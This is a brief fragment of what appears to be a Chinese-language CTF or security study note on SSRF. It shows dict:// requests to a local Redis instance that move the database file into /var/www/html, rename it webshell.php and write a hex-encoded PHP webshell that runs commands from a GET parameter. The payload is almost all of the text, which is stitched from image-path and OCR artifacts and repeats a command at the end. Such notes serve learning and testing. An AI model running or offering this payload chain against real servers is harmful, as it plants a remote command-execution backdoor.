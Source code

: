 ```c
更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html

将rdb文件名dbfilename改为webshell的名字
url=dict://127.0.0.1:6379/config:set:dbfilename:webshell.php

写入webshell，有些时候可能\x需要换成 \\x进行转义
url=dict://127.0.0.1:6379/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x73\x79\x73\x74\x65\x6d\x28\x24\x5f\x47\x45\x54\x5b\x22\x63\x6d\x64\x22\x5d\x29\x3f\x3e"

进行备份
dict://127.0.0.1:6379/save更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html
```

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/1689447203355-71caa4c3-6179-4e48-a9e3-18b68673f4c8.png)

### SSRF打FastCGI

